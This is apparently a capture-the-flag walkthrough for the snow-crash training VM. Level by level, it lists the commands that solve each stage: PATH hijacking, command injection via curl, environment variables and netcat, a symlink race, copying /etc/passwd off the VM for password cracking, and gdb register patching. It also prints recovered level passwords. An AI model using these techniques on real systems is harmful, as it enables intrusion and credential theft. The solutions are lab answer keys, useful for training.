 # snow-crash

# Levels:

## 0.
getent passwd
ll -R / 2>dev/null | grep flag00
find / -user flag00 2>/dev/null

cat /usr/sbin/john
su flag00
getflag
su level01

## 1.
find / -name 'passwd' 2>/dev/null
cat /etc/passwd | grep flag01
scp -P 5000 level00@192.168.56.1:/../../../etc/passwd . # scp - secure copy
.\Downloads\john\run\john.exe --show .\passwd

## 2.
scp -P 5000 scp://level02@localhost/level02.pcap C:/Users/Vlad/snow-crash
chmod 777 level02.pcap 
# open Wireshark -> any TCP packet -> follow -> TCP Stream : ft_waNDReL0L
tcpdump -n -r level02.pcap -Xq

## 3.
ll # level03 can execute other commands with high privelage
ltrace ./level03
env # the list of environmental variables
echo getflag > /tmp/echo && chmod +x /tmp/echo # aliasing getflag
export PATH=/tmp:$PATH # start from the directory with alias
./level03

## 4.
netstat -tl
curl localhost:4747?x=\`getflag\`
curl 'localhost:4747?x=`getflag`'

## 5.
find / -name 'level05'  2>/dev/null
env

cat /var/mail/level05 # open crontab file
cat $MAIL

cat  /usr/sbin/openarenaserver
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && sleep 121 && cat /tmp/flag 
echo 'getflag > /tmp/flag' > /opt/openarenaserver/exploit && cat /tmp/flag 

## 6.
echo '[x {${exec(getflag)}}]' > /tmp/boo ; ./level06 /tmp/boo
echo '[x ${`getflag`}]' > /tmp/boo ; ./level06 /tmp/boo

## 7.
ltrace ./level07
echo $LOGNAME
export LOGNAME=\`getflag\` ; ./level07
export LOGNAME='$(getflag)' ; ./level07

## 8.
ltrace ./level08 token
chmod 777 .
ln -s token my_tok && ./level08 my_tok
su flag08 #quif5eloekouj29ke0vouxean
getflag

## 9.
scp -P 5000 scp://level09@localhost/token C:/Users/Vlad/snow-crash
python break.py `cat token`

su flag09 F3iji1ju5yuevaus41q1afiuq
getflag

## 10.
strings ./level10 | grep 'Connecting' # shows the port
while true; do ln -fs ~/level10 /tmp/fake; ln -fs ~/token /tmp/fake; done # alternation of links between two files
while true; do ./level10 /tmp/fake 127.0.0.1; done # using binary
nc -l 6969 

## 11.
cat level11.lua
nc -zv localhost 5151 # scan if port is open, not necessary, -z - port scanning
nc localhost 5151 # create TCP connection
; getflag > /tmp/f11 # send in password

$(getflag) > /tmp/f11 # send in password
cat /tmp/f11

## 12.
echo "getflag > /tmp/token" > /tmp/XX && chmod +x /tmp/XX
curl  http://localhost:4646?x='$(/*/XX)'
#curl http://localhost:4646?x=\`/*/XX\`

cat /tmp/token

## 13.
./ltrace ./level13
id # get your id
objdump -d level13

gdb ./level13
b getuid
r # run

set $eax=4242 # or 0x1092 - change register
c # continue

#or
jump *0x80485cb

## 14.
cat /etc/passwd # get the number of the level
id

gdb getflag
disass main

b *(main + 72) # overcome prtace defence
b *(main + 444) # put correct ID in eax
r
info register $eax # -1
set $eax=0
n # next step
set $eax=3014
c